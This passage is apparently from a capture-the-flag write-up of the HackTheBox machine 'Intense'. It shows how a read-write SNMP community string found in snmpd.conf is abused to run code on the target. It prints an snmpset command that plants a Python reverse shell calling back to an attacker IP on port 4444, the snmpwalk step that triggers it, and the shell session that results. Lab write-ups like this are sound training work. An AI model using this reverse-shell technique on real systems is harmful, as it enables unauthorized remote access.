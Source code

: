 let's read the file configuration maybe we get a credentials.
![website](/assets/img/Posts/snmpdconf.png)

here some info is very useful
```
 rocommunity public  default    -V systemonly
 rwcommunity SuP3RPrivCom90
```
to get `RCE` i read this [**article**](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e)

An abbreviation of the article and time:
First, we need make a string to inject my commands inside the snmpd.conf file, So we put a reverse shell command into the `NET-SNMP-EXTEND-MIB` object , and execute it with `snmwalk`
```
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 \     
    10.10.10.195 \
    'nsExtendStatus."command"'  = createAndGo \
    'nsExtendCommand."command"' = /usr/bin/python3 \
    'nsExtendArgs."command"'    = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.16.x\",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/bash")"'
```    
Then, run the above `snmpwalk` command to find out the ISO where the “Hello World” is executing.
```
snmpwalk -v 2c -c SuP3RPrivCom90 10.10.10.195
```
Using all of this manually is very difficult and you will face many problems with that i used this [**tool**](https://github.com/mxrch/snmp-shell) to automate all this process.
```shell
ezi0x00@kali:~/HTB/Intense/snmp-shell$ rlwrap python3 shell.py 10.10.10.195 -c SuP3RPrivCom90

Debian-snmp@intense:/$ id 
uid=111(Debian-snmp) gid=113(Debian-snmp) groups=113(Debian-snmp)
```
After got a shell.
